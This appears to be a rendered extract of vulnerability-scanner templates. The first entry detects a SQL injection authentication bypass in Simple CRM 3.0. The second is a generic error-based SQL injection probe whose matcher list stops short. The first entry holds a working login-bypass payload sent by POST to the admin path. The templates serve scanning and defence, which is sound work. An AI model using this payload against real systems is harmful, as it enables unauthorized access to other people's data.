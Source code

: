 - Simple CRM 3.0 is susceptible to SQL injection and authentication bypass vulnerabilities.
- severity - critical
- tags - packetstorm,sqli,simplecrm,auth-bypass,injection

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/scrm/crm/admin
  - email='+or+2>1+--+&password=&login=

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<script>window.location.href='home.php'\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# Error based SQL injection

## Description

- Detects the possibility of SQL injection in 29 database engines. Inspired by https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/errors.xml.
- severity - high
- tags - sqli,generic,error

## Requests

- Method - GET

### URL

- {{BaseURL}}/'

### Matchers
